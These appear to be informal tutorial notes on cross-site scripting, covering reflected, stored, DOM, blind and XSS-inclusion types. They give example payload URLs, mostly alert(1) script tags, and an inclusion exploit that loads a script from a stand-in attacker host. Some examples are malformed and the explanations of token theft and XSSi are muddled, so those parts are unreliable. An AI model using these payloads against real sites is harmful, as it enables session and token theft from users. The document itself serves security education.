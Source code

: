 *XSS => Cross Site Scripting 


This attack occurs whenever we can load a JavaScript code in the DOM of the desired page.


- bypass SOP:

  
   https://target.tld/search?q=<XSS_Payload>


For example, the attacker in the above address has realized that he can launch an XSS attack by injecting the payload, and he knows that the target token is located in the /usr/token path, and he can get it with the right payload. 


for example :

Payload => script src="https://target.tld/usr/token.js"></script>
browser console => alert(token);


But if the attacker wants to send a request directly to that path, SOP stops the browser!


*XSS Types:


  - Reflected XSS(RXSS):

    
     https://target.tld/search?q=<script>alert(1);</script>


  - Stored XSS(SXSS):

    
     https://target.tld/user?email=<script>alert(1);</script>


  - DOM XSS(DXSS):

    
    https://target.tld/user#";alert(1);

    
    developer => location.hash


   - Blind XSS(BXSS):
   
    The code runs where Attacker doesn't see it


   
   - XSSi => XSS Inclusion

     
         - js => automate generate 
         - email , token , ...
             - exploit : 
                            <script src="http://atacker.tld/info.js"></script>
